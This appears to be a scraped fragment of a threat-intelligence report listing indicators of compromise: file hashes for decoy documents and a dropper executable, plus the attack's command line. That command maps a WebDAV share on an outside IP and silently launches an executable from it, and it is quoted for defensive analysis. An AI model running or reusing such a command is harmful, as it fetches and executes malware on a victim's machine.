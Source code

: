 Command line;"%ComSpec%" /c net use hxxp://192.248.176[.]138 && start \\192.248.176[.]138\DavWWWRoot\DopSog_Consultant.docx && start /b \\192.248.176[.]138\DavWWWRoot\tf.exeDescription;ValueName;Akt_sverki_Consultant.docx
MD5;e959fa8191ca2e4dd99932e149668ade
SHA1;79526eaf1489762ca1deca358d6742f9c1718ca6
SHA256;4ff26fed848df58550c656fb1676a9afded48060381c55d45154a90a3272ba9e
Size;22,614 bytes
Type;Decoy documentDescription;ValueName;DopSog_Consultant.docx
MD5;0ead98011c8d777fd2772d41ab990111 
SHA1;9569f635576ec5460571ca6ee02f9b01f39956ea
SHA256;990ef464d76b206e4727ee9ccba9c0be33a278a26116c3c2c839125abc97777f 
Size;24,551 bytes
Type;Decoy documentDescription;ValueName;tf.exe
MD5;9dc7f56d0bb5d7543d0ea4a644110623
SHA1;c82e12e563d5d5f4a8dd67703b5df7373b457abc
SHA256;8f3747775a1bdeae4627763687bdcb2ef325874e7a908f3ec24380c5d2f2b44a
Size;88,576 bytes
Compilation timestamp;2022-03-24 09:02:10 UTC
PDB;Z:\WebFluffPP\Release\TinyFluff.pdbDescription;ValueName;s.txt
MD5;1ddda12e2a8594bc458dbf22b4b39c27
SHA1;dbaad9f3af3e48da6ef6a93747b2a1939ffa4b3d
SHA256;2b507a5d9af760667e18cd11584816575d102d7e9e1900de29b8513d30f6d65c
Size;8,392 bytesShare Fake investment scams in Europe How we almost got rich  Under the Hood. Group-IB Managed XDR  What Group-IB’s new all-in-one solution offers Group-IB introduces the Unified Risk Platform Group-IB’s platform allows organizations to overcome cyber risks Fat Cats An analysis of the BlackCat ransomware affiliate program Prevention  Security Assessment Red Teaming  Pre-IR Assessment  Compromise Assessment Cyber Education  Response  Investigation  InvestigationsDigital ForensicseDiscovery  Products  Threat IntelligenceManaged XDRFraud ProtectionAttack Surface ManagementDigital Risk ProtectionBusiness Email Protection  Company  About Group-IB  Media Center  Leadership  Contact Careers  Singapore +65 3159-3798 info@group-ib.ru       Amsterdam +31 6 225-080-98info@group-ib.ru  CERT-GIB Incident Response Incident Response Retainer    